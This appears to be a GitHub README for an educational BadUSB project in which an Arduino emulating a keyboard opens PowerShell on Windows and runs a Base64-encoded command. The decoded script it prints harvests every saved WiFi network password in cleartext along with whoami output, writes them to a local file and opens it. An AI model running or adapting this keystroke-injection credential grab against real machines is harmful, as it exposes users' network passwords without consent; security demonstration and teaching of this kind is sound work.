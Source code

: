 
# BadArduino: Executing Commands on Windows with Arduino

This project is a demonstrative example of how to use an Arduino device to send predefined commands to a computer. The code shows how to simulate keystrokes and send commands to PowerShell using Arduino's keyboard emulation capabilities, with the `Keyboard.h` library.

⚠️ **WARNING**: This code is purely for illustrative and educational purposes. Misuse of such techniques may violate the law or security policies. Use this project only in a controlled environment and with the device owner's consent.

---

## Code Features

This code uses an Arduino (e.g., Arduino Leonardo or another device capable of keyboard emulation [`ATmega32u4 chip`]) to:
1. Open PowerShell using the Windows shortcut `Win + R`.
2. Execute a Base64-encoded PowerShell command, which is decoded and explained below.

> **Note:** Make sure to use the appropriate keyboard layout library for the target PC’s language. For example, `Keyboard_it_IT.h` for Italian, or another layout file that matches the intended language. This ensures that the keys are correctly interpreted on the destination system.

---

## Decoding the `EncodedCommand` Command

The Base64 encoded string executes a PowerShell command that collects various system information. Here is the original command:

```powershell
$filePath = "$env:USERPROFILE\test.txt";
$wifiProfiles = netsh wlan show profiles | Select-String "All user profiles" | ForEach-Object { ($_ -split ": ")[1].Trim() };
$output = "";
$wifiProfiles | ForEach-Object { $profile = $_; $profileInfo = netsh wlan show profile name="$profile" key=clear; $password = ($profileInfo | Select-String "Key Content").replace('^.*:\s*', ''); if (!$password) { $password = "N/A" }; $output += "Profile: $profile\nPassword: $password\n"; };
$userInfo = whoami;
$output += "`nUser Info: $userInfo`n";
$output | Out-File -FilePath $filePath;
notepad $filePath
```

This command saves a `test.txt` file containing information about WiFi profiles and other user information in the user's folder (`$env:USERPROFILE`).

---

## Execution Demo

When you connect the Arduino device, it automatically executes the programmed sequence as shown in the demo image:
![Demo](https://github.com/nemmusu/badarduino/blob/main/example/demo.gif). 
The GIF demonstrates how the Arduino opens PowerShell and runs commands to collect information, storing it in a text file, which then opens in Notepad.

